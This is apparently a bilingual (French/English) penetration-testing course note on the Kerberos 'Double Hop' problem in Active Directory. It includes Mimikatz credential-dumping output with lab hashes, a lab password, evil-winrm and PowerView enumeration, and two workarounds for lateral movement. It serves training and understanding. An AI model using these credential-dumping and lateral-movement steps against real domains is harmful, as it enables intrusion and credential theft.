

# Kerberos "Double Hop" Problem

***

Il existe un problème connu sous le nom de **"Double Hop"** qui se produit lorsqu'un attaquant tente d'utiliser l'authentification Kerberos sur deux (ou plusieurs) sauts. Ce problème est lié à la manière dont les tickets Kerberos sont accordés pour des ressources spécifiques.

Les **tickets Kerberos ne doivent pas être considérés comme des mots de passe**. Ce sont des **données signées par le KDC (Key Distribution Center)** qui indiquent quelles ressources un compte peut accéder.

Lorsqu'on s'authentifie avec Kerberos, on obtient un **"ticket"** qui nous permet d'accéder à une ressource demandée (**ex : un serveur**).

À l'inverse, lorsqu'on utilise un mot de passe pour s'authentifier, le **hash NTLM est stocké dans notre session** et peut être **réutilisé sur d'autres machines sans problème**.

***

#### **Explication du problème du "Double Hop" :**

Le **Double Hop** survient dans un scénario où :

1. **Premier saut** : Tu te connectes à une **première machine** (Machine A) avec Kerberos.
2. **Deuxième saut** : Depuis la Machine A, tu veux **te connecter à une deuxième machine** (Machine B) en utilisant Kerberos.

➡️ **Le problème :** Ton ticket Kerberos est valide pour la Machine A, mais **ne peut pas être réutilisé** pour accéder à la Machine B. Kerberos ne permet pas à une machine d'utiliser ton ticket pour s'authentifier à ta place sur un autre serveur.

***

### <mark style="color:red;">Background</mark>

Le problème du "Double Hop" survient souvent lors de l'utilisation de WinRM/PowerShell, car le mécanisme d'authentification par défaut ne fournit qu'un ticket pour accéder à une ressource spécifique.

Cela va probablement causer des problèmes lorsqu'on tente d'effectuer un mouvement latéral ou même d'accéder à des partages de fichiers depuis la session distante.

Dans cette situation, le compte utilisateur utilisé a les droits pour effectuer une action mais se voit refuser l'accès.

La manière la plus courante d'obtenir un shell est d'attaquer une application sur la machine cible ou d'utiliser des identifiants et un outil comme PSExec.

Dans ces deux scénarios, l'authentification initiale a probablement été réalisée via SMB ou LDAP, ce qui signifie que le hachage NTLM de l'utilisateur serait stocké en mémoire.

Parfois, nous disposons d'un ensemble d'identifiants et sommes restreints à une méthode d'authentification particulière, comme WinRM, ou nous préférons utiliser WinRM pour diverses raisons.

Le cœur du problème est que lorsqu'on utilise WinRM pour s'authentifier sur deux connexions ou plus, le mot de passe de l'utilisateur n'est jamais mis en cache dans le cadre de sa connexion.

Si nous utilisons Mimikatz pour examiner la session, nous verrons que toutes les informations d'identification sont vides.

Comme mentionné précédemment, lorsque nous utilisons Kerberos pour établir une session distante, nous n'utilisons pas de mot de passe pour l'authentification.

Lorsque l'authentification par mot de passe est utilisée, avec PSExec par exemple, ce hachage NTLM est stocké dans la session. Ainsi, lorsque nous tentons d'accéder à une autre ressource, la machine peut récupérer le hachage depuis la mémoire et nous authentifier.

Voyons un exemple rapide. Si nous nous authentifions sur la machine distante via WinRM et lançons Mimikatz, nous ne voyons pas les identifiants de l'utilisateur `backupadm` en mémoire.


```powershell-session
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 45177 (00000000:0000b079)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :
```


There are indeed processes running in the context of the `backupadm` user, such as `wsmprovhost.exe`, which is the process that spawns when a Windows Remote PowerShell session is spawned.


```powershell-session
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
wsmprovhost.exe               1844 Services                   0     85,212 K Unknown         INLANEFREIGHT\backupadm
                             0:00:03 N/A
tasklist.exe                  6532 Services                   0      7,988 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
conhost.exe                   7048 Services                   0     12,656 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
```



In the simplest terms, in this situation, when we try to issue a multi-server command, our credentials will not be sent from the first machine to the second.


Let's say we have three hosts: `Attack host` --> `DEV01` --> `DC01`. Our Attack Host is a Parrot box within the corporate network but not joined to the domain. We obtain a set of credentials for a domain user and find that they are part of the `Remote Management Users` group on DEV01. We want to use `PowerView` to enumerate the domain, which requires communication with the Domain Controller, DC01.

<figure><figcaption></figcaption></figure>


Lorsque nous nous connectons à **DEV01** en utilisant un outil comme **evil-winrm**, nous nous connectons avec une authentification réseau, ce qui signifie que nos identifiants ne sont pas stockés en mémoire et ne seront donc pas présents sur le système pour s'authentifier à d'autres ressources au nom de notre utilisateur. Lorsque nous chargeons un outil comme **PowerView** et tentons de consulter Active Directory, **Kerberos** n'a aucun moyen d'informer le **DC** (Contrôleur de Domaine) que notre utilisateur peut accéder aux ressources dans le domaine. Cela se produit parce que le **TGT (Ticket Granting Ticket)** Kerberos de l'utilisateur n'est pas envoyé à la session distante ; par conséquent, l'utilisateur n'a aucun moyen de prouver son identité, et les commandes ne seront plus exécutées dans le contexte de cet utilisateur. En d'autres termes, lors de l'authentification à l'hôte cible, le **TGS (Ticket Granting Service)** de l'utilisateur est envoyé au service distant, ce qui permet l'exécution des commandes, mais le **TGT** de l'utilisateur n'est pas envoyé. Lorsque l'utilisateur tente d'accéder à des ressources suivantes dans le domaine, son **TGT** ne sera pas présent dans la requête, donc le service distant n'aura aucun moyen de prouver que la tentative d'authentification est valide, et l'accès sera refusé au service distant.

Si la **délégation non restreinte** est activée sur un serveur, il est probable que nous ne rencontrions pas le problème du **"Double Hop"**. Dans ce scénario, lorsque l'utilisateur envoie son **TGS** pour accéder au serveur cible, son **TGT** est envoyé avec la requête. Le serveur cible a maintenant le **TGT** de l'utilisateur en mémoire et peut l'utiliser pour demander un **TGS** en leur nom pour le prochain hôte qu'ils essaient d'accéder. En d'autres termes, le **TGT** de l'utilisateur est mis en cache, ce qui permet de signer des **TGS** et d'accorder un accès à distance. En règle générale, si vous arrivez sur une machine avec une **délégation non restreinte**, vous avez déjà gagné et ne vous souciez pas de ce problème de toute manière.


***

### <mark style="color:red;">Workarounds</mark>

A few workarounds for the double-hop issue are covered in [this post](https://posts.slayerlabs.com/double-hop/).&#x20;

***

### <mark style="color:red;">Workaround #1: PSCredential Object</mark>

We can also connect to the remote host via host A and set up a PSCredential object to pass our credentials again. Let's see that in action.

After connecting to a remote host with domain credentials, we import PowerView and then try to run a command. As seen below, we get an error because we cannot pass our authentication on to the Domain Controller to query for the SPN accounts.


```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```


If we check with `klist`, we see that we only have a cached Kerberos ticket for our current server.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x57f8a

Cached Tickets: (1)

#0> Client: backupadm @ INLANEFREIGHT.LOCAL
    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

So now, let's set up a PSCredential object and try again. First, we set up our authentication.


```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
```


Now we can try to query the SPN accounts using PowerView and are successful because we passed our credentials along with the command.


```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname
```


If we try again without specifying the `-credential` flag, we once again get an error message.


```shell-session
get-domainuser -spn | select 

*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname 

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```


If we RDP to the same host, open a CMD prompt, and type `klist`, we'll see that we have the necessary tickets cached to interact directly with the Domain Controller, and we don't need to worry about the double hop problem. This is because our password is stored in memory, so it can be sent along with every request we make.

```cmd-session
C:\htb> klist

Current LogonId is 0:0x1e5b8b

Cached Tickets: (4)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 6/28/2022 9:13:38 (local)
        End Time:   6/28/2022 19:13:38 (local)
        Renew Time: 7/5/2022 9:13:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x2 -> DELEGATION
        Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

***

### <mark style="color:red;">Workaround #2: Register PSSession Configuration</mark>

We've seen what we can do to overcome this problem when using a tool such as `evil-winrm` to connect to a host via WinRM. What if we're on a domain-joined host and can connect remotely to another using WinRM? Or we are working from a Windows attack host and connect to our target via WinRM using the [Enter-PSSession cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)? Here we have another option to change our setup to be able to interact directly with the DC or other hosts/resources without having to set up a PSCredential object and include credentials along with every command (which may not be an option with some tools).

Let's start by first establishing a WinRM session on the remote host.


```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```


If we check for cached tickets using `klist`, we'll see that the same problem exists. Due to the double hop problem, we can only interact with resources in our current session but cannot access the DC directly using PowerView. We can see that our current TGS is good for accessing the HTTP service on the target since we connected over WinRM, which uses SOAP (Simple Object Access Protocol) requests in XML format to communicate over HTTP, so it makes sense.


```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x11e387

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
       Start Time: 6/28/2022 9:09:19 (local)
       End Time:   6/28/2022 19:09:19 (local)
       Renew Time: 0
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x8 -> ASC
       Kdc Called:
```


We also cannot interact directly with the DC using PowerView


```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname

```


**One trick we can use here is registering a new session configuration using the** [**Register-PSSessionConfiguration**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) **cmdlet.**


```powershell-session
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```


Once this is done, we need to restart the WinRM service by typing `Restart-Service WinRM` in our current PSSession. This will kick us out, so we'll start a new PSSession using the named registered session we set up previously.

After we start the session, we can see that the double hop problem has been eliminated, and if we type `klist`, we'll have the cached tickets necessary to reach the Domain Controller. This works because our local machine will now impersonate the remote machine in the context of the `backupadm` user and all requests from our local machine will be sent directly to the Domain Controller.


```powershell-session
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```


We can now run tools such as PowerView without having to create a new PSCredential object.


```powershell-session
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

```



Note: We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Furthermore, if we try to run this by first setting up a PSCredential object and then attempting to run the command by passing credentials like `-RunAsCredential $Cred`, we will get an error because we can only use `RunAs` from an elevated PowerShell terminal. Therefore, this method will not work via an evil-winrm session as it requires GUI access and a proper PowerShell console. Furthermore, in our testing, we could not get this method to work from PowerShell on a Parrot or Ubuntu attack host due to certain limitations on how PowerShell on Linux works with Kerberos credentials. This method is still highly effective if we are testing from a Windows attack host and have a set of credentials or compromise a host and can connect via RDP to use it as a "jump host" to mount further attacks against hosts in the environment. .

